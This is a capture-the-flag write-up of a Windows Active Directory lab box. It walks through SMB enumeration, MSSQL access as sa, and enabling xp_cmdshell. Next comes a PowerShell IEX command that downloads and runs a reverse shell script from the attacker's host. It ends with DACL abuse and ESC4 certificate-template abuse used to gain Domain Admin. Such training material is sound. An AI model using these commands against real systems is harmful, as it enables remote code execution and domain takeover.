


## 📝 Description

As is common in real-life Windows pentests, we begin this box with pre-given credentials:

**Username:** `rose`  
**Password:** `KxEPkKe6R8su`

---

## 🔍 Enumeration

We'll start with a basic **Nmap** scan using the following command:

```bash
nmap -sC -sV -sT 10.10.11.51
```

we will notice this valuable info 
```
DC01.sequel.htb
1433/tcp open  Microsoft SQL Server
389/tcp  open  LDAP
88/tcp   open  Microsoft Windows Kerberos
445/tcp  open  Microsoft-ds SMB
```
## 📁 SMB Enumeration

Let’s enumerate the **SMB protocol** using the credentials we obtained earlier.

We'll use a tool called **`smbmap`** to list accessible shares.

### 🛠️ Recon:

```bash
smbmap -u rose -p KxEPkKe6R8su -H sequel.htb
```

```plaintext
[+] IP: 10.10.11.51:445   Name: sequel.htb   Status: Authenticated

    Disk                   Permissions    Comment
    ----                   -----------    -------
    Accounting Department  READ ONLY
    ADMIN$                 NO ACCESS      Remote Admin
    C$                     NO ACCESS      Default share
    IPC$                   READ ONLY      Remote IPC
    NETLOGON               READ ONLY      Logon server share
    SYSVOL                 READ ONLY      Logon server share
    Users                  READ ONLY
    
```
Let's try to connect to smb and check accounting department 

we found 2 files and we downloaded them to our local machine using "get" command in smb client

now lets check the type of these files 

we found out its not spreedshet its comprised file so after extracting the files and check them out we got these credentials:

we notice **sa** credentials
```
sa is the defult admin account for connecting and managing the MSSQL Database
``` 
### 🧩 Attempting MSSQL Access with `impacket-mssqlclient`

We try to connect to the MSSQL service using **default `sa` credentials**.

```bash
impacket-mssqlclient escapetwo.htb/sa:'xxxxxxxx!'@10.10.11.51
```

Cool now we have to enable xp_cmdshell to be able to execute commands on the system we can enable it by : 
```bash
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
 ```
 

 ### 🛠️ Trying to get reverse shell:
 okay let's get reverse shell on the machine 
 first we will need to craft our powershell script to give us reverse shell
 
 then we will run python server and make the machine to download it by this command :
 ```powershell
 EXEC xp_cmdshell 'powershell -ExecutionPolicy Bypass -c "IEX(New-Object Net.WebClient).DownloadString(''http://10.10.16.2/shellx.ps1'')"';
```
Boom we got reverse shell now :


after some digging i found configuration file leaking sql_svc information 
```bash
Wqxxxxxxxxxxxxxxxx
```
Also i found user called ryan : 

Lets use these credintials to login and try to get the user flag : 

we got the user flag now 
## ⚡Privilege escalation
Let's use bloodhound in order to find somehting we can exploit in order to get privilege escalation 


we see here that the user **ryan** has WriteOwner permission on CA_SVC so thats mean that **ryan** can change the Owner of CA_SVC.

CA_SVC is member of CERT_publisher so it has the right to be the certificate issuer.

we will use BloodyAD to perform this 
```
bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.
```
so let's do it and change the owner to ryan

Done :)

Now we need to abuse this and this attack called **Grant Rights Abuse**

### Grant Rights Abuse
In Active Directory (AD), Grant Rights abuse occurs when an attacker gains control over an object that has WriteDacl (Write permissions on the Discretionary Access Control List) over another object. This allows the attacker to modify the target object's DACL (Discretionary Access Control List) by adding a malicious Access Control Entry (ACE), effectively granting themselves or another account unauthorized privileges.

so we will modify the DACL (Discretionary Access Control List) of a target account **ca_svc** in Active Directory, granting full control to **ryan**

we will use impacket tool to perform this 
```bash
impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'user' -target 'ca_svc' 'sequel.htb'/"user":"password"
```


okay now what ???
now after we changed the owner to ryan and abused the grant rights , since the CA_SVC is certificate pushplisher so how about trying to abuse the Certificate Template Access Control 

###  Certificate Template Access Control (ESC4)

Active Directory Certificate Services (AD CS) allows organizations to issue digital certificates for authentication, encryption, and signing
**ESC4** is a privilege escalation vulnerability where an attacker can modify a certificate template (due to weak permissions) to make it abusable (like ESC1, ESC2, or ESC3)

#### Certificate Template
its a blueprint that defines:

- Who can request certificates (Enrollment Rights)

- What the certificate can be used for Extended Key Usage "EKU"

- Security settings like "Requires Manager Approval"

- Stored in Active Directory and managed via Certification Authority (CA)

#### ESC4
If a user has write permissions on a certificate template they can change its settings to make it vulnerable like ESC1 where a normal user can get a Domain Admin certificate

**you can read more about this attack at the resources section down below**

we will use tool called **certipy-ad** to perform this attack 


we perform a Shadow Credentials attack, which allows you to take over the ca_svc account by adding a Key Credential "a certificate based authentication method" to it

now let's search for misconfigured templates but first we have to upload **Certify** on the victim machine 

let's create quick server on the directory that has Certify.exe to be able to download it on the victim machine by this command 

```bash
python3 -m http.server 8000 
```

then we can execute this powershell command on the victim machine 

```powershell
cd $env:USERPROFILE\Desktop; iwr "http://10.10.16.3:8000/Certify.exe" -OutFile "Certify.exe"
```

then we can run it by this command 
```powershell
./Certify.exe find /domain:sequel.htb
```


okay we got some juicy information here

This certificate template **DunderMifflinAuthentication** has several dangerous misconfigurations that could allow privilege escalation


now we need to list all the available certificate templates using the forged Kerberos ticket

---


### Exploiting the Misconfigured Template

Using the forged Kerberos ticket (`ca_svc.ccache`), we listed all available certificate templates:

```bash
KRB5CCNAME=$KRB5_FILE certipy template -k -template "$TEMPLATE" -dc-ip "$HOST" -target "$DC"
```


We then issued a certificate for the **Domain Admin** using the following command:

```bash
sudo certipy-ad req -u ca_svc -hashes '3xxxxxxxxxxxxxxxxxxxxxxxxx' -ca sequel-DC01-CA -target sequel.htb -dc-ip xx.xx.xx.xx -template DunderMifflinAuthentication -upn target@sequel.htb -dns target.sequel.htb -ns xx.xx.xx.xx -debug
```



Finally, we used the `administrator_administrator.pfx` file to retrieve the TGT:


---

## 🎉 Root Flag

Using the certificate, we logged in with `Evil-WinRM` and retrieved the **root flag**:


## 🙏 Conclusion

Thank you for reading! If you have any questions, feel free to reach out to me on Twitter: [@kareemwalid17](https://twitter.com/kareemwalid17).


---
## 📚 Resources

- [Hacking with BloodHound: Map Your Environment](https://www.youtube.com/watch?v=0gK8t7Kk7ZI)
- [Vulnerable Certificate Template Access Control - ESC4](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4)
- [SMB Hacking](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html)
- [Shadow Credentials Abusing](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Attacking Kerberos Authentication](https://ieeexplore.ieee.org/stamp/stamp.jsp?arnumber=9501961)
- [Active Directory Hacking Steps](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

